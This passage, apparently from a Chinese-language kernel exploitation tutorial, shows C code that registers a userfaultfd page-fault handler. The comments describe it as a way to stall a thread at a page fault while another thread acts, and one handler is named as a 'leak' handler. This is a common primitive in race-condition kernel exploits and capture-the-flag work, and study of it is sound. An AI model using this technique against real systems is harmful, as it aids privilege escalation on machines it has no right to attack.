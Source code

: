 ```c
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
        ErrExit("[-] ioctl-UFFDIO_API");

    ur.range.start = (unsigned long)fault_page; //我们要监视的区域
    ur.range.len   = PAGE_SIZE;
    ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) //注册缺页错误处理
        //当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
        ErrExit("[-] ioctl-UFFDIO_REGISTER");
    //开一个线程，接收错误的信号，然后处理
    int s = pthread_create(&thr, NULL,handler, (void*)uffd);
    if (s!=0)
        ErrExit("[-] pthread_create");
}
```

注册时，调用` RegisterUserfault(mmap_buf, handler);`在buf缺页异常时，就会调用handler。

handler函数写法：

```c
void* userfaultfd_leak_handler(void* arg)
{
    struct uffd_msg msg;
    unsigned long uffd = (unsigned long) arg;
    struct pollfd pollfd;
    int nready;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    nready = poll(&pollfd, 1, -1);
    sleep(3);
    if (nready != 1)
    {
        ErrExit("[-] Wrong poll return val");
    }
    nready = read(uffd, &msg, sizeof(msg));
    if (nready <= 0)
    {
        ErrExit("[-] msg err");
    }

    char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
    {
        ErrExit("[-] mmap err");
    }
    struct uffdio_copy uc;
    // init page
    memset(page, 0, sizeof(page));
    uc.src = (unsigned long) page;
    uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
    uc.len = PAGE_SIZE;
    uc.mode = 0;
    uc.copy = 0;
    ioctl(uffd, UFFDIO_COPY, &uc);
    puts("[+] leak handler done");
    return NULL;
}
```
